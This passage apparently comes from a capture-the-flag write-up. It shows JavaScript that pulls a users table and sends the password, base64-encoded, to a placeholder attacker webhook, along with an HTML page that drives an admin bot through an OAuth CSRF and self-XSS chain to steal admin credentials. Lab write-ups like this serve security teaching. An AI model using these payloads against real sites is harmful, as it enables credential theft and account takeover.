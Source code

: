 ```javascript
          body: JSON.stringify({ tableName: "users" }),
        });

    const data = await response.json();

    if (data.success) {
      fetch('http://[attacker webhook]?x=' + btoa(data.results[0].password))
      console.log('Query Results:', data.results);
    } else {
      fetch('http://[attacker webhook]?error=' + btoa(data))
      console.error('Query Error:', data.message);
    }
  } catch (error) {
    fetch('http://[attacker webhook]?catch=' + btoa(error))
    console.error('Request Failed:', error);
  }
}
```

It will clear cookies and set the cookie, and if the cookie is already there it will simply fetch user table and send it our webhook.

Combining everything together with our Oauth CSRF and Self xss

1. First we make the admin bot visit our web server with the following index.html
```HTML
<script>
  window.open('http://127.0.0.1:1337/logout');

  // Wait 2 seconds, then redirect the current page
  setTimeout(function() {
    window.open('http://127.0.0.1:1337/callback?code=8ba70f277c42248b526a963c66320ab867dec133');
  }, 1000);

  setTimeout(function() {
    window.open('http://127.0.0.1:1337/my-bids');
  }, 2000);
</script>
```

Then once the cookie overwrite is completed we make the bot visit `http://127.0.0.1:1337/my-bids`

and we get the admin credentials in base64 encoded form